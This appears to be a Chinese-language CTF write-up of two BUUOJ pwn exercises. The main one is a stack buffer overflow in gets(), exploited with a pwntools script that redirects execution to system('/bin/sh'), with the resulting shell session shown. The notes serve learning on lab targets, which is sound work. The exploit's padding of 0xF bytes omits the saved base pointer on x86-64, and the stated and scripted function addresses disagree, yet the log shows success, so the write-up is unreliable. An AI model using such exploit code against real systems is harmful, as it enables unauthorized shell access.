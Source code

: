 # PWN做题笔记

## 练习记录

### [PWN-test_your_nc](https://buuoj.cn/challenges#test_your_nc)

下载程序文件，使用 `file` 命令查看，发现这是个 Debian 64 位程序

使用 IDA 64 进行静态分析，找到主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  system("/bin/sh");
  return 0;
}
```

emmmmmmmm...

显然直接 `nc` 到服务器里即可获得 flag

```shell
┌──(hervey㉿Hervey)-[~]
└─$ nc node5.buuoj.cn 29833
ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
media
mnt
opt
proc
pwn
root
run
sbin
srv
sys
tmp
usr
var
cat flag
flag{<flag here>}
```

### [PWN-rip](https://buuoj.cn/challenges#rip)

下载后获得文件 pwn1

先使用 `file` 命令查看文件类型，发现是一个 ELF 64 位程序

```shell
┌──(hervey㉿Hervey)-[/mnt/c/Users/zhwaa/Downloads]
└─$ file pwn1
pwn1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=1c72ddcad651c7f35bb655e0ddda5ecbf8d31999, not stripped
```

接着使用 `checksec` 命令识别安全属性

```shell
┌──(hervey㉿Hervey)-[/mnt/c/Users/zhwaa/Downloads]
└─$ checksec --file=pwn1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   64 Symbols        No    0               1               pwn1
```

可以发现无任何栈保护

使用 IDA 64 进行逆向

`main()` 函数

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[15]; // [rsp+1h] [rbp-Fh] BYREF

  puts("please input");
  gets(s, argv);
  puts(s);
  puts("ok,bye!!!");
  return 0;
}
```

同时我们还能找到一个 `fun` 函数

```c
int fun()
{
  return system("/bin/sh");
}
```

所以我们的目标应该是利用 `gets()` 这个危险函数的缓冲区溢出漏洞，将 `s` 变量数据溢出到覆盖返回地址，实现跳转到执行 `system("/bin/sh")` 进而去获得 flag

使用 IDA 64 可以轻松地获取 `s` 的地址为 `[rbp-Fh]`

点击 `fun()` 在窗口左下角可以获得该函数位于 `0x00001186`

由此我们可以写出脚本

```python
from pwn import *
p = remote("<IP Address>", <Port>)
payload = b'A' * 0xF + p64(0x00401186)
p.sendline(payload)
p.interactive()
```

运行该脚本，进入容器终端

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ python3 ./sol.py
[+] Opening connection to <IP Address> on port <Port>: Done
[*] Switching to interactive mode
$ ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
media
mnt
opt
proc
pwn
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag
flag{<flag here>}
```

进而获得 flag
